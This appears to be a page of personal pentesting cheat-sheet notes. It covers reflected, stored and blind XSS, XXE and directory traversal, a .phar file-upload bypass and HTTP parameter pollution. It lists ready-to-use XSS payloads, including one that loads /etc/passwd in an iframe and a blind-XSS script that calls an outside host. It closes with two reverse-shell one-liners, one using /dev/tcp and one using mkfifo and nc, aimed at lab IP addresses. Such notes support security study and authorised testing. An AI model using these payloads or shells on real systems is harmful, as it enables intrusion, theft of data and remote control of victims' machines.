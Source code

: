 ### REFLECTED  
In this type of attack, the malicious script is part of the victim's request to the website. The website includes this script in its response, which is then executed by the victim's web browser. This is often used in phishing attacks where the attacker creates a fakelogin page and sends the URL to the victim. When the victim enters their credentials, the data is sent to the attacker.
Another is to find some URL where it looks like ?q=something.

### STORED/PERSISTED
In this type of attack, the malicious script is injected into a website's database. This script is then served to the website's users when they request it, leading to the execution of the script in their web browsers. An example of a stored XSS attack is when an attacker injects a comment containing malicious code on a website, and that code is served to other users who view the comment.


- `<iframe src=\"javascript:alert('xss')\">`
- `<iframe src="javascript:alert('xss')">`
- `<iframe src='javascript:alert('xss')'>`
- `<script>document.write('<iframe src=file:///etc/passwd></iframe>');</script>`

### BLIND
- `';"</textarea></script><script/src=/bxss.hackwithnahamsec.com/` XSS Hunter
- `</textarea></script><script>alert("This is a basic alert");</script>`

## XML External Entity(XEE)
- [HackTricks](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity)
- [PayLoads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)

## Directory Traversal
- [HackTricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
- [PayLoads](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/README.md)

## FILE UPLAOD
### BYPASSES:
- `Instead of .php, we can use .phar and use ?page=phar://uploads`

## HTTP Parameter Pollution (HPP)
HTTP Parameter Pollution (HPP) is a Web attack evasion technique that allows an attacker to craft a HTTP request in order to manipulate web logics or retrieve hidden information. This evasion technique is based on splitting an attack vector between multiple instances of a parameter with the same name (?param1=value&param1=value). As there is no formal way of parsing HTTP parameters, individual web technologies have their own unique way of parsing and reading URL parameters with the same name. Some taking the first occurrence, some taking the last occurrence, and some reading it as an array. This behavior is abused by the attacker in order to bypass pattern-based security mechanisms. 


# SHELL
## REVERSE SHELL
### OPEN:
- [Generator](https://www.revshells.com/)
- `sh -i >& /dev/tcp/10.10.14.6/9999 0>&1`
- `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.12 4444 >/tmp/f` Use in files

